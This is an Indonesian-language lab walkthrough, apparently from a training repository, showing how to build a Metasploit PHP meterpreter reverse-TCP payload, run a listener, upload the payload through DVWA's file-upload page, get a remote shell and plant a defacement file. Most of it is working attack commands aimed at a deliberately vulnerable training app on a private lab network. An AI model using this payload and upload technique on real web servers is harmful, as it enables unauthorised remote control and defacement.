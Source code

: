 ## LESSON 8

Inti dari Lesson 8 adalah mendapatkan 4 hal, yaitu:
1. Membuat **php/meterpreter/reverse_tcp payload**
2. Menjalankan **php/meterpreter/reverse_tcp listener**
3. Mengunggah **php payload** menggunakan **DVWA Upload Screen**
4. Menggunakan **php payload** untuk membuat koneksi dengan **DVWA**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membangun PHP msfpayload**
1. Masukkan command berikut untuk membuat **msfpayload**

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```

![SS 1](LESSON_8/1.png)

2. **Edit PHONE_HOME.php**

```
Hilangkan # pada <?php
```

![SS 2](LESSON_8/2.png)

**B. Menjalankan PHP Payload Listener**
1. Masukkan command berikut

```
msfconsole
```

![SS 3](LESSON_8/3.png)

2. Jalankan command berikut

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```

![SS 4](LESSON_8/4.png)

**C. Login DVWA**

![SS 5](LESSON_8/5.png)

**D. Ubah Security Level**

![SS 6](LESSON_8/6.png)

**E. Upload PHP Payload**
1. Masuk ke dalam **Upload** lalu klik **Browse* dan cari file **PHONE_HOME.php**

![SS 7](LESSON_8/7.png)

2. Klik **Upload** sehingga muncul pesan sama seperti gambar di bawah

![SS 8](LESSON_8/8.png)

Didapatkan **Privileges** dari **User** yang diinginkan

3. Aktifkan **PHONE_HOME.php** dengan cara klik file tersebut setelah berada di halaman berikut

```
http://192.168.1.103/dvwa/hackable/uploads/
```

![SS 9](LESSON_8/9.png)

4. Koneksi telah stabil

![SS 10](LESSON_8/10.png)

5. Lakukan **Shell**

```
shell
uptime
pwd
whoami
w
echo "Hacked at 12-18-2017, by Sani Hacker" > hacked.html
ls -l
```

![SS 11](LESSON_8/11.png)

**F. Testing**
1. Buka **hacked.html** pada alamat berikut

```
http://192.168.1.103/dvwa/hackable/uploads
```

![SS 12](LESSON_8/12.png)

2. Hasil

![SS 13](LESSON_8/13.png)

### Kesimpulan Lesson 8

Menggunakan **msfconsole** dapat menambahkan file-file baru pada **DVWA**

